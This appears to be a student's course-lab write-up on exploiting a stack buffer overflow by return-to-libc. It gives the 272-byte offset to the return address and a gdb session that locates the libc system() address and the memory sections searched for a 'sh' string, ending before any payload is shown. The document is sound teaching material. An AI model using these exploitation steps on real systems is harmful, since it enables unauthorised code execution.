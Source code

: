 Already know we need 272 bytes to overwrite the return address so lets fire up gdb to find out the address of the libc `system()` call and an address for string 'sh': `gdb vulnerable`

<pre>
(gdb) b main
Breakpoint 1 at 0x8048489: file vulnerable.c, line 5.
(gdb) r
Starting program: /home/amilkov3/Dropbox/CS6035/Project1/Extraneous/vulnerable 

Breakpoint 1, main (argc=1, argv=0xbffff124) at vulnerable.c:5
5		memcpy(buf, argv[1], strlen(argv[1]));
(gdb) p system
$1 = {<text variable, no debug info>} <b>0xb7e56190</b> <__libc_system>
(gdb) info files
Symbols from "/home/amilkov3/Dropbox/CS6035/Project1/Extraneous/vulnerable".
Unix child process:
	Using the running image of child process 2373.
	While running this, GDB does not access memory from...
Local exec file:
	`/home/amilkov3/Dropbox/CS6035/Project1/Extraneous/vulnerable', 
        file type elf32-i386.
	Entry point: 0x8048380
	0x08048154 - 0x08048167 is .interp
	0x08048168 - 0x08048188 is .note.ABI-tag
	0x08048188 - 0x080481ac is .note.gnu.build-id
	0x080481ac - 0x080481cc is .gnu.hash
	0x080481cc - 0x0804823c is .dynsym
	0x0804823c - 0x08048296 is .dynstr
	0x08048296 - 0x080482a4 is .gnu.version
	0x080482a4 - 0x080482c4 is .gnu.version_r
	0x080482c4 - 0x080482cc is .rel.dyn
	0x080482cc - 0x080482f4 is .rel.plt
	0x080482f4 - 0x08048317 is .init
	0x08048320 - 0x08048380 is .plt
	0x08048380 - 0x08048542 is .text
	0x08048544 - 0x08048558 is .fini
	0x08048558 - 0x08048560 is .rodata
	0x08048560 - 0x0804858c is .eh_frame_hdr
	0x0804858c - 0x0804863c is .eh_frame
	0x08049f08 - 0x08049f0c is .init_array
	0x08049f0c - 0x08049f10 is .fini_array
---Type <return> to continue, or q <return> to quit---
	0x08049f10 - 0x08049f14 is .jcr
	0x08049f14 - 0x08049ffc is .dynamic
	0x08049ffc - 0x0804a000 is .got
	0x0804a000 - 0x0804a020 is .got.plt
	0x0804a020 - 0x0804a028 is .data
	0x0804a028 - 0x0804a02c is .bss
	0xb7fde114 - 0xb7fde138 is .note.gnu.build-id in /lib/ld-linux.so.2
	0xb7fde138 - 0xb7fde1f8 is .hash in /lib/ld-linux.so.2
	0xb7fde1f8 - 0xb7fde2dc is .gnu.hash in /lib/ld-linux.so.2
	0xb7fde2dc - 0xb7fde4ac is .dynsym in /lib/ld-linux.so.2
	0xb7fde4ac - 0xb7fde642 is .dynstr in /lib/ld-linux.so.2
	0xb7fde642 - 0xb7fde67c is .gnu.version in /lib/ld-linux.so.2
	0xb7fde67c - 0xb7fde744 is .gnu.version_d in /lib/ld-linux.so.2
	0xb7fde744 - 0xb7fde7b4 is .rel.dyn in /lib/ld-linux.so.2
	0xb7fde7b4 - 0xb7fde7e4 is .rel.plt in /lib/ld-linux.so.2
	0xb7fde7f0 - 0xb7fde860 is .plt in /lib/ld-linux.so.2
	0xb7fde860 - 0xb7ff67ac is .text in /lib/ld-linux.so.2
	0xb7ff67c0 - 0xb7ffa7a0 is .rodata in /lib/ld-linux.so.2
	0xb7ffa7a0 - 0xb7ffae24 is .eh_frame_hdr in /lib/ld-linux.so.2
	0xb7ffae24 - 0xb7ffd71c is .eh_frame in /lib/ld-linux.so.2
	0xb7ffecc0 - 0xb7ffef34 is .data.rel.ro in /lib/ld-linux.so.2
	0xb7ffef34 - 0xb7ffefec is .dynamic in /lib/ld-linux.so.2
